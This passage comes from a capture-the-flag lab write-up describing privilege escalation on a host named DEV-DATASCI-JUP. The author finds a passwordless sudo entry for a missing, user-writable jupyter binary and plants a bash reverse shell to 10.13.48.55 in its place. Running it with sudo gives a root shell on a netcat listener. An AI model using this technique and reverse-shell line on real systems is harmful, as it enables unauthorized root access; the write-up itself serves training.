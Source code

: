 ### Breaking out of WSL
Checking sudo permissions is something I always do early one since it's usually an easy win, so I quickly found that ```/home/dev-datasci/.local/bin/jupyter``` can be executed with root privileges without a password.

```
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ sudo -l
sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci
        -c *
```

We have write permissions to ```/home/dev-datasci/.local/bin/```, and since there isn't a ```jupyter``` file there, we can create our own.

```
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ pwd
pwd
/home/dev-datasci/datasci-team
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ ls -al ../.local/bin
ls -al ../.local/bin
total 0
drwxrwxrwx 1 dev-datasci dev-datasci 4096 Aug 25  2022 .
drwx------ 1 dev-datasci dev-datasci 4096 Aug 25  2022 ..
-rwxrwxrwx 1 dev-datasci dev-datasci  216 Aug 25  2022 f2py
-rwxrwxrwx 1 dev-datasci dev-datasci  216 Aug 25  2022 f2py3
-rwxrwxrwx 1 dev-datasci dev-datasci  216 Aug 25  2022 f2py3.8
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.48.55/80 0>&1'" > ../.local/bin/jupyter
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.48.55/80 0>&1'" > ../.local/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ chmod +x ../.local/bin/jupyter
chmod +x ../.local/bin/jupyter
```

Now to leverage our sudo privileges and execute it as root...

```
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ sudo /home/dev-datasci/.local/bin/jupyter
sudo /home/dev-datasci/.local/bin/jupyter
```

```
┌──(kali㉿kali)-[/tmp/smb]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.34.193] 50863
bash: cannot set terminal process group (10): Invalid argument
bash: no job control in this shell
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# 
```


[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.